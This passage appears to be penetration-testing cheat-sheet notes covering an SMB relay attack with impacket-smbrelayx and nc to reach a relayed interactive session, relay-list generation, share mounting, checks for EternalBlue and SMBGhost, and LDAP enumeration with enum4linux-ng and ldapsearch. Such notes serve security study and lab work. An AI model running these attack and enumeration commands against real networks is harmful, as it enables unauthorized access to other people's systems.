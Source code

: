 * smb relay attack

```
nxc smb $IP (verify signing is false)
```

```
impacket-smbrelayx -tf 10.10.144.21 -i
```

```
nc 127.0.0.1 11000
```

* Then we can use shares if smb or use mssql commands if the return is mssql

*  nxc smb-relay

```
nxc smb --gen-relay-list hosts.txt
```

* change smbpasswd
```
smbpasswd -U user -r domain.com
```

* Mount Shares

```
sudo mount -t cifs //$Ip/share /tmp/mnt/
```

* Umount Share

```
sudo umount /mnt/point
```

* check for Netapi, Eternal Blue and  SMB Ghost


## 389,636,1760,3268,3269 LDAP

* Enum4linux-ng
```
enum4linux-ng -a $IP
```

* Enumeration with ldapsearch

```
ldapsearch -h $IP -x -b "" -s base \* +
```

```
ldapsearch -x -H ldap://$IP -s base namingcontexts
```

```
ldapsearch -x -b "dc=doman,dc=com" -H ldap://$IP
```
